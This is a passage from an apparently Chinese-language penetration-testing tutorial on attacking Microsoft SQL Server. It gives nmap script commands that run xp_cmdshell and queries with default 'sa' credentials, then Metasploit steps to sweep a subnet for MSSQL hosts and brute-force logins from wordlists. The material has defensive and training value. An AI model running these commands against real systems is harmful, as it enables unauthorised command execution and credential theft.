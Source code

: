 ### 执行 xp\_cmdshell（可能脚本原因导致执行未成功）

```php
nmap -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=admin,ms-sql-xp-cmdshell.cmd="net user" 192.168.3.130
```

### 执行 mssql 命令（可能脚本原因导致执行未成功）

```php
nmap -p1433 --script ms-sql-query --script-args mssql.username=sa,mssql.password=admin,ms-sql-query.query="sp_databases" 192.168.3.130
```

# 使用 msf 进行 mssql 攻击

### 定位 Mssql 服务器

```php
msf6 > use auxiliary/scanner/mssql/mssql_ping 
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 192.168.3.0/24
msf6 auxiliary(scanner/mssql/mssql_ping) > set threads 255
msf6 auxiliary(scanner/mssql/mssql_ping) > exploit 
```

![image.png](assets/1706232584-49b275540fbf79dc1487775d7637f2b5.png)

### 密码破解

```php
use auxiliary/scanner/mssql/mssql_login
set rhosts 192.168.3.130
set user_file users.txt
set pass_file users.txt
set verbose false
exploit
```
